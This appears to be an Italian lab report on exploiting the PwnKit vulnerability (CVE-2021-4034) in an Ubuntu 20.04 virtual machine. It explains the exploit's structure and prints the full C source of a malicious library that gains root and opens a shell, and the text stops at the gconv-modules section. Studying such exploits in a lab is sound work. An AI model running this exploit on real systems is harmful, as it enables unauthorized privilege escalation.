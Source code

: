 Per testare questa vulnerabilità in modo sicuro, ho configurato un ambiente virtualizzato utilizzando VirtualBox con le seguenti caratteristiche:

- Sistema operativo: **[Ubuntu 20.04 LTS](https://old-releases.ubuntu.com/releases/20.04.0/)** (versione precedente al patch)
- Configurazione: Installazione standard con polkit predefinito
- Utenti: Creato un utente non privilegiato "user"

Ho verificato la presenza del binario pkexec e dei suoi permessi:

```bash
$ ls -la /usr/bin/pkexec:
-rwsr-xr-x 1 root root 31032 gen 13 2021 /usr/bin/pkexec
```

# 4. Sviluppo Exploit

@Alberto Bettini 

Per sfruttare la vulnerabilità CVE-2021-4034 (PwnKit), ho seguito il metodo descritto da PwnFunction su GitHub. L’idea è “ingannare” `pkexec` facendogli caricare una libreria creata da noi, che viene eseguita con i privilegi di root.

## 4.1 Struttura del exploit

l’exploit è formati da  **tre elementi:** 

1. **Una libreria malevola** (`evil-so.c`) che contiene il nostro codice da eseguire come root.
2. **Un file di configurazione** (`gconv-modules`) che dice al sistema come usare quella libreria.
3. **Uno script o programma (`exploit.c`)** che crea le cartelle e le variabili d’ambiente richieste, poi lancia `pkexec`.

### `evil-so.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv() {}

void gconv_init() {
    setuid(0);         // Imposta l'utente a root
    setgid(0);         // Imposta il gruppo a root
    setgroups(0);      // Rimuove eventuali altri gruppi
    execve("/bin/sh", NULL, NULL);  // Apre una shell
}
```

Questa funzione `gconv_init()` viene chiamata automaticamente dal sistema quando `pkexec` prova a caricare un modulo di conversione caratteri, come vedremo più avanti.

### `gconv-modules`
